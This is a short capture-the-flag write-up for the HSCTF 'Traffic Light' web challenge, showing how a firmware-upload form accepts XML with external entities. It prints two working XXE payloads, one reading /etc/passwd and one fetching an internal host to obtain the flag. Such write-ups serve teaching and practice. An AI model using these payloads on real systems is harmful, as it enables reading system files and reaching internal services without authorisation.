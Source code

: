 You are given a page where you can upload firmware to some docker containers.
![alt text](https://github.com/S0UL4/CTF-Writeups/blob/master/HSCTF/Web-Traffic-Light/main.png?raw=true)


Clicking in Upload firmware And here we are 

![alt text](https://github.com/S0UL4/CTF-Writeups/blob/master/HSCTF/Web-Traffic-Light/xml.png?raw=true)


the first thing that came to my mind is to test if there is an XXE so
tried to read the "passwd" file and yes ! it works ! we have an XXE injection !

code to read /etc/passwd


``` <?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
  <content>&xxe;</content>
</root>
```
Outputs : 

![alt text](https://github.com/Jord4563/CTF-writeups/blob/master/HSCTF2020/traffic-lights-w/passwd.png?raw=true)


So now we have to look for the flag location ! i tried /home/flag.txt and /flag.txt but i didn't find nothing  ! 
after that i noticed that we have an open port 80 in traffic-light-1004 
So tried to acces it with : 

``` <?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://traffic-light-1004/"> ]>
<root>
  <content>&xxe;</content>
</root>
```

And Boooom !! we got our Flag 

![alt text](https://github.com/Jord4563/CTF-writeups/blob/master/HSCTF2020/traffic-lights-w/sol.png?raw=true)


Flag: flag{shh_im_mining_bitcoin}


